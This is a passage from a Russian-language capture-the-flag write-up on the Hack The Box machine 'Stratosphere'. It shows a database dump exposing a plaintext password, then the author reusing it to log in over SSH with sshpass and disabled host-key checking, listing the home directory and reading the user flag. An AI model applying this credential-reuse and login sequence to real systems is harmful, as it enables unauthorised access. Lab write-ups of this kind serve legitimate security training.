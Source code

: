 ```
+-----------------+
1 row in set (0.00 sec)

MariaDB [users]>
select * from accounts;
select * from accounts;
+------------------+---------------------------+----------+
| fullName         | password                  | username |
+------------------+---------------------------+----------+
| Richard F. Smith | 9tc*rhKuG5TyXvUJOrE^5CK7k | richard  |
+------------------+---------------------------+----------+
1 row in set (0.00 sec)
```

Выдвину уникальное предположение, что это авторизационные данные пользователя richard (и не прогадаю :smiling_imp:)!

# SSH — Порт 22 (внутри машины)
Подключимся к машине по SSH (для удобства передаем пароль как аргумент командной строки и пропускаем проверку сертификата — учебная же все же машина):
```
root@kali:~# sshpass -p '9tc*rhKuG5TyXvUJOrE^5CK7k' ssh -oStrictHostKeyChecking=no richard@10.10.10.64
richard@stratosphere:~$ whoami
richard

richard@stratosphere:~$ id
uid=1000(richard) gid=1000(richard) groups=1000(richard),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),112(lpadmin),116(scanner)

richard@stratosphere:~$ ls -la
total 40
drwxr-x--- 5 richard richard 4096 Mar 19 15:23 .
drwxr-xr-x 4 root    root    4096 Sep 19  2017 ..
lrwxrwxrwx 1 root    root       9 Feb 10  2018 .bash_history -> /dev/null
-rw-r--r-- 1 richard richard  220 Sep 19  2017 .bash_logout
-rw-r--r-- 1 richard richard 3526 Sep 19  2017 .bashrc
drwxr-xr-x 3 richard richard 4096 Oct 18  2017 .cache
drwxr-xr-x 3 richard richard 4096 Oct 18  2017 .config
drwxr-xr-x 2 richard richard 4096 Oct 18  2017 Desktop
-rw-r--r-- 1 richard richard  675 Sep 19  2017 .profile
-rwxr-x--- 1 root    richard 1507 Mar 19 15:23 test.py
-r-------- 1 richard richard   33 Feb 27  2018 user.txt
```

## user.txt
Заберем флаг пользователя:
```text
richard@stratosphere:~$ cat /home/richard/user.txt
e610b298????????????????????????
```


[//]: # (2019-09-17)
[//]: # ({{ "/img/xakep-badge.png" | relative_url }})